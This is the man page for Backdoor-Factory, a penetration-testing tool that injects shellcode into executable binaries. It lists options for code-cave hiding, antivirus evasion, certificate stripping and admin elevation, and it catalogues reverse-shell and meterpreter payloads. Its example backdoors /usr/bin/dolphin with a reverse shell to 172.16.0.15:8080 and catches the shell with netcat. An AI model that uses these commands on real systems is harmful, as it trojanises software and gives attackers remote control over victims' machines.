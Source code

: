 % BACKDOOR-FACTORY(1) Backdoor-Factory Man Page
% Philippe Thierry
% May 2017
# NAME
backdoor-factory - inject predefined or user-defined shellcode in binaries

# SYNOPSIS
**backdoor-factory [options]**


# DESCRIPTION
**backdoor-factory** patch executable binaries with user desired
shellcode and continue normal execution of the prepatched state.

This tool is for security professionals and researchers only.

# OPTIONS:
**-h**, **--help**
  show this help message and exit

**-f FILE**, **--file=FILE**
  File to backdoor

**-s SHELL**, **--shell=SHELL**
  Payloads that are available for use. Use 'show' to see payloads.

**-H HOST**, **--hostip=HOST**
  IP of the C2 for reverse connections.

**-P PORT**, **--port=PORT**
  The port to either connect back to for reverse shells or to listen on for bind shells

**-J**, **--cave_jumping**
  Select this options if you want to use code cave jumping to further hide your shellcode in the binary.

**-a**, **--add_new_section**
  Mandating that a new section be added to the exe (better success) but less av avoidance

**-U SUPPLIED_SHELLCODE**, **--user_shellcode=SUPPLIED_SHELLCODE**
  User supplied shellcode, make sure that it matches the architecture that you are targeting.

**-c**, **--cave**
  The cave flag will find code caves that can be used for stashing shellcode. This will print to all the code caves of a specific size.The -l flag can be use with this setting.

**-l SHELL_LEN**, **--shell_length=SHELL_LEN**
  For use with -c to help find code caves of different sizes

**-o OUTPUT**, **--output-file=OUTPUT**
  The backdoor output file

**-n NSECTION**, **--section=NSECTION**
  New section name must be less than seven characters

**-d DIR**, **--directory=DIR**
  This is the location of the files that you want to backdoor. You can make a directory of file backdooring faster by forcing the attaching of a codecave to the exe by using the -a setting.

**-w**, **--change_access**
  This flag changes the section that houses the codecave to RWE. Sometimes this is necessary. Enabled by default. If disabled, the backdoor may fail.

**-i**, **--injector**
  This command turns the backdoor factory in a hunt and shellcode inject type of mechanism. Edit the target settings in the injector module.

**-u SUFFIX**, **--suffix=SUFFIX**
  For use with injector, places a suffix on the original file for easy recovery

**-D**, **--delete_original**
  For use with injector module.  This command deletes the original file.  Not for use in production systems.
  (Author not responsible for stupid uses.)

**-O DISK_OFFSET**, **--disk_offset=DISK_OFFSET**
  Starting point on disk offset, in bytes. Some authors want to obfuscate their on disk offset to avoid reverse engineering, if you find one of those files use this flag, after you find the offset.

**-S**, **--support_check**
  To determine if the file is supported by BDF prior to backdooring the file. For use by itself or with verbose. This check happens automatically if the backdooring is attempted.

**-M**, **--cave-miner**
  Future use, to help determine smallest shellcode possible in a PE file

**-q**, **--no_banner**
  Kills the banner.

**-v**, **--verbose**
  For debug information output.

**-T IMAGE_TYPE**, **--image-type=IMAGE_TYPE**
  ALL, x86, or x64 type binaries only. Default=ALL

**-Z**, **--zero_cert**
  Allows for the overwriting of the pointer to the PE certificate table effectively removing the certificate from the binary for all intents and purposes.

**-R**, **--runas_admin**
  EXPERIMENTAL Checks the PE binaries for 'requestedExecutionLevel level="highestAvailable"'. If this string is included in the binary, it must run as system/admin. If not in Support Check mode it will attmept to patch highestAvailable into the manifest if requestedExecutionLevel entry exists.

**-L**, **--patch_dll**
  Use this setting if you DON'T want to patch DLLs. Patches by default.

**-F FAT_PRIORITY**, **--fat_priority=FAT_PRIORITY**
  For MACH-O format. If fat file, focus on which arch to patch. Default is x64. To force x86 use -F x86, to force both archs use -F ALL.

**-B BEACON**, **--beacon=BEACON**
  For payloads that have the ability to beacon out, set the time in secs

**-m PATCH_METHOD**, **--patch-method=PATCH_METHOD**
  Patching methods for PE files, 'manual','automatic', replace and onionduke

**-b SUPPLIED_BINARY**, **--user_malware=SUPPLIED_BINARY**
  For onionduke. Provide your desired binary.

**-X**, **--xp_mode**
  Default: DO NOT support for XP legacy machines, use -X to support XP. By default the binary will crash on XP machines (e.g. sandboxes)

**-A**, **--idt_in_cave**
  EXPERIMENTAL By default a new Import Directory Table is created in a new section, by calling this flag it will be put in a code cave.  This can cause bianry failure is some cases. Test on target binaries first.

**-C**, **--code_sign**
  For those with codesigning certs wishing to sign PE binaries only. Name your signing key and private key signingcert.cer and signingPrivateKey.pem respectively in the certs directory it's up to you to obtain signing certs.

**-p**, **--preprocess**
  To execute preprocessing scripts in the preprocess directory

# TITLE TO DEFINE

List of Intel shellcodes (by name)

## for all intel-based (x86 and x86_64 architecture)

**reverse_shell_tcp**
  need:
  permits: remote shell access

**delay_reverse_shell_tcp**
  need:
  permits:

**beaconing_reverse_shell_tcp**
  need:
  permits:

**user_supplied_shellcode**
  need:
  permits:

## Linux specific shellcodes

**reverse_tcp_stager**
  need:
  permits:

## Windows PE32 exe shellcodes

**reverse_shell_tcp_inline**
  needs:
  permits:

**reverse_shell_tcp_stager_threaded**
  needs:
  permits:

**meterpreter_reverse_https_threaded**
  needs:
  permits:

**user_applied_shellcode_threaded**
  needs:
  permits:

**iat_reverse_tcp_inline**
  needs:
  permits:

**iat_reverse_tcp_inline_threaded**
  needs:
  permits:

**iat_reverse_tcp_stager_threaded**
  needs:
  permits:

**iat_user_applied_shellcode_threaded**
  needs:
  permits:

## Windows PE64 exe shellcodes

**delay_reverse_shell_tcp**
  needs:
  permits:

**reverse_shell_tcp**
  needs:
  permits:

**beaconing_reverse_shell_tcp**
  needs:
  permits:

**user_supplied_shellcode**
  needs:
  permits:

# EXAMPLES

Example of cavecoding an ELF binary, by integrating a remote shell access
through a remote TCP listener (e.g. netcat):

`backdoor-factory -f /usr/bin/dolphin -H 172.16.0.15 -P 8080 -s reverse_shell_tcp`

On the host behind the IP 172.16.0.15, start netcat in listen mode:

`$ netcat -l 172.16.0.15 8080`

On the target, start the backdoored binary:
`./backdoored/dolphin`

Now, on the host 172.16.0.15, just use your shell.


# HISTORY
May 2017, Originally compiled by Philippe Thierry (phil at reseau-libre dot
com)
